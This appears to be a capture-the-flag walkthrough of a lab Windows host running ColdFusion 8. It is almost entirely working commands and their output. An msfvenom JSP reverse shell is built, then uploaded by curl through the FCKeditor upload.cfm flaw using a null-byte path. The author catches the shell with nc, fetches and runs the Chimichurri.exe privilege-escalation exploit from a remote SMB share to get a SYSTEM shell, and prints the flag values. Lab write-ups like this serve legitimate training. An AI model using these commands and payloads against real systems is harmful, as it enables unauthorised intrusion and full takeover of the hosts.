

```
$ sudo nmap -sV -sC 10.10.10.11

Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-28 16:47 CEST
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 16:48 (0:00:42 remaining)
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 16:48 (0:00:52 remaining)
Nmap scan report for 10.10.10.11
Host is up (0.0063s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.95 seconds
```

`nmap` gives us some standard Windows stuff, and then port `8500`?

Apparently this is `ColdFusion` web software, so let's load the admin page:



```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f raw > shell.jsp
```

Then from `searchsploit -x cfm/webapps/16788.rb`:

```bash
curl -X POST -F "newfile=@shell.jsp;type=application/x-java-archive;filename=shell.txt" 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'
```

Loading that file gives us a shell:

```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.11] 49323
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

Then

```
C:\Users\tolis\Desktop>type user.txt
02650d3a************************
```

## Elevation

```powershell
C:\ColdFusion8\runtime\bin>net use \\10.10.14.7\share
net use \\10.10.14.7\share
The command completed successfully.

C:\ColdFusion8\runtime\bin>copy \\10.10.14.7\share\Chimichurri.exe .
copy \\10.10.14.7\share\Chimichurri.exe .
        1 file(s) copied.

C:\ColdFusion8\runtime\bin>.\Chimichurri.exe 10.10.14.7 4445
.\Chimichurri.exe 10.10.14.7 4445
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR
```

cd

```
$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.11] 49372
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

```
C:\ColdFusion8\runtime\bin>whoami
nt authority\system
```

We have our root shell!

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
5020f1a28841577c39f1d46e4af56999
```
